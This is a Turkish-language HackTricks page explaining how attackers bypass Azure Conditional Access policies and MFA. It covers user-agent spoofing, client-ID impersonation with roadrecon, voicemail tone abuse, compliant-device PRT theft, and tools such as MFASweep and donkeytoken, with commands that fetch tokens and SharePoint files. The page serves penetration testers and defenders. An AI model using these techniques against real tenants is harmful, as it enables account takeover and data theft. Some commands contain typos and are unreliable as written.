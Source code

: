 # Az - Koşullu Erişim Politikaları / MFA Atlatma

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

Azure Koşullu Erişim politikaları, belirli **koşullara** dayalı olarak Azure hizmetlerine ve uygulamalarına erişim kontrollerini uygulamak için Microsoft Azure'da kurulan kurallardır. Bu politikalar, organizasyonların doğru koşullar altında doğru erişim kontrollerini uygulayarak kaynaklarını güvence altına almasına yardımcı olur.\
Koşullu erişim politikaları temelde **Kim**'in **Neyi** **Nereden** ve **Nasıl** erişebileceğini **tanımlar**.

İşte birkaç örnek:

1. **Oturum Açma Risk Politikası**: Bu politika, bir oturum açma riski tespit edildiğinde çok faktörlü kimlik doğrulama (MFA) gerektirecek şekilde ayarlanabilir. Örneğin, bir kullanıcının oturum açma davranışı, farklı bir ülkeden oturum açmak gibi, normal desenine göre alışılmadık olduğunda, sistem ek kimlik doğrulama talep edebilir.
2. **Cihaz Uygunluk Politikası**: Bu politika, yalnızca organizasyonun güvenlik standartlarına uygun cihazlara Azure hizmetlerine erişimi kısıtlayabilir. Örneğin, yalnızca güncel antivirüs yazılımına sahip veya belirli bir işletim sistemi sürümünü çalıştıran cihazlardan erişime izin verilebilir.

## Koşullu Erişim Politikaları Atlatmaları

Bir koşullu erişim politikasının **kolayca manipüle edilebilecek bazı bilgileri kontrol etmesi mümkündür, bu da politikanın atlatılmasına olanak tanır**. Örneğin, politika MFA'yı yapılandırıyorsa, saldırgan bunu atlatabilecektir.

### Cihaz Platformları - Cihaz Koşulu

**Cihaz platformuna** (Android, iOS, Windows, macOS) dayalı bir koşul ayarlamak mümkündür, ancak bu **kullanıcı aracısı** (user-agent) temelinde olduğu için atlatılması oldukça kolaydır. Tüm seçenekleri MFA'yı zorunlu kılacak şekilde ayarlasanız bile, **tanımadığı bir kullanıcı aracısı** kullanırsanız MFA'yı atlatabilirsiniz.

### Lokasyonlar: Ülkeler, IP aralıkları - Cihaz Koşulu

Elbette, bu koşullu politikada ayarlanmışsa, bir saldırgan sadece **izin verilen ülkede** bir **VPN** kullanabilir veya bu koşulları atlatmak için **izin verilen bir IP adresinden** erişim sağlamanın bir yolunu bulmaya çalışabilir.

### Office365 İstemci Uygulamaları

Eğer istemcilerin **Office 365 uygulamalarına tarayıcıdan erişim sağlarken MFA'ya ihtiyaç duyduğunu** belirtebilirsiniz:

<figure><img src="../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

Bunu atlatmak için, bir masaüstü uygulamasından (aşağıdaki örnekte Microsoft Teams gibi) bir uygulamaya giriş yapıyormuş gibi davranmak mümkündür; bu da korumayı atlatacaktır:
```bash
roadrecon auth -u user@email.com -r https://outlook.office.com/ -c 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --tokrns-stdout

<token>
```
Microsoft Teams uygulaması birçok izne sahip olduğundan, bu erişimi kullanabileceksiniz.

{% hint style="success" %}
Önceden tanımlanmış Office365 izinlerine sahip daha fazla genel uygulamanın I**D'sini** roadtools veritabanında bulabilirsiniz:

{% code overflow="wrap" %}
```sql
SELECT appId, displayName FROM ApplicationRefs WHERE publicCLient = 1 ORDER BY displayName ASC
```
{% endcode %}
{% endhint %}

Bu saldırı özellikle ilginçtir çünkü varsayılan olarak, kamuya açık Office365 uygulamaları bazı verilere erişim iznine sahip olacaktır.

### Diğer uygulamalar

Varsayılan olarak, kullanıcılar tarafından oluşturulan diğer uygulamalar izinlere sahip olmayacak ve özel olabilir.\
Ancak, kullanıcılar ayrıca bazı **izinler** veren **kamuya açık** **uygulamalar** oluşturabilirler.

Bir politikanın **bir uygulamaya erişim için MFA gerektirecek şekilde ayarlandığı** potansiyel bir senaryo, kullanıcı bir **tarayıcı** kullanıyorsa (belki de bir web uygulaması olduğu için ve dolayısıyla tek yol bu olacaktır), eğer bir **proxy uygulama** varsa -kullanıcılar adına **diğer uygulamalarla etkileşimde bulunmasına izin verilen bir uygulama**-, kullanıcı **proxy uygulamasında oturum açabilir** ve ardından bu proxy uygulaması aracılığıyla **ilk başta MFA korumalı uygulamaya oturum açabilir**.

[**Invoke-MFASweep**](az-conditional-access-policies-mfa-bypass.md#invoke-mfasweep) ve [**donkeytoken**](az-conditional-access-policies-mfa-bypass.md#donkeytoken) tekniklerini kontrol edin.

## Diğer Az MFA Atlatmaları

### Zil sesi

Bir Azure MFA seçeneği, **yapılandırılmış telefon numarasına bir çağrı almak** ve kullanıcıdan **`#` karakterini göndermesini istemektir**.

{% hint style="danger" %}
Karakterler sadece **tonlar** olduğundan, bir saldırgan **telefon numarasının** **sesli mesaj** iletisini **tehdit edebilir**, iletinin **`#` tonunu** ayarlayabilir ve ardından MFA talep edildiğinde **kurbanın telefonunun meşgul olduğundan emin olabilir** (aramak suretiyle) böylece Azure çağrısı sesli mesaja yönlendirilir.
{% endhint %}

### Uyumlu Cihazlar

Politikalar genellikle uyumlu bir cihaz veya MFA talep eder, bu nedenle bir **saldırgan uyumlu bir cihaz kaydedebilir**, bir **PRT** token alabilir ve **bu şekilde MFA'yı atlayabilir**.

Öncelikle **Intune'da uyumlu bir cihaz kaydederek** başlayın, ardından **PRT'yi** almak için:
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
Aşağıdaki sayfada bu tür bir saldırı hakkında daha fazla bilgi bulabilirsiniz:

{% content-ref url="../az-lateral-movement-cloud-on-prem/pass-the-prt.md" %}
[pass-the-prt.md](../az-lateral-movement-cloud-on-prem/pass-the-prt.md)
{% endcontent-ref %}

## Araçlar

### [roadrecon](https://github.com/dirkjanm/ROADtools)

Tüm politikaları alın
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep, sağlanan bir kimlik bilgileri setini kullanarak **çeşitli Microsoft hizmetlerine giriş yapmaya çalışan ve MFA'nın etkin olup olmadığını belirlemeye çalışan** bir PowerShell betiğidir. Koşullu erişim politikaları ve diğer çok faktörlü kimlik doğrulama ayarlarının nasıl yapılandırıldığına bağlı olarak bazı protokoller tek faktörlü kalabilir. Ayrıca, ADFS yapılandırmaları için ek bir kontrol içerir ve tespit edilirse yerel ADFS sunucusuna giriş yapmayı deneyebilir.
```bash
Invoke-MFASweep -Username <username> -Password <pass>
```
### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token, Conditional Access Policies'ı doğrulamak, 2FA etkin Microsoft portalları için testler yapmak gibi ihtiyaçları olan güvenlik danışmanlarına yardımcı olmayı amaçlayan bir dizi işlevdir.
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**Her bir portalı test edin** eğer **MFA olmadan giriş yapmak mümkünse**:
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
Çünkü **Azure** **portalı** **kısıtlanmamıştır**, önceki yürütme tarafından tespit edilen herhangi bir hizmete erişmek için **portal uç noktasından bir token toplamak** mümkündür. Bu durumda Sharepoint tanımlandı ve ona erişmek için bir token talep ediliyor:

{% code overflow="wrap" %}
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```
{% endcode %}

Diyelim ki token, Sites.Read.All (Sharepoint'tan) iznine sahip. MFA nedeniyle web üzerinden Sharepoint'a erişemeseniz bile, oluşturulan token ile dosyalara erişmek için token'ı kullanmak mümkündür:
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
## Referanslar

* [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
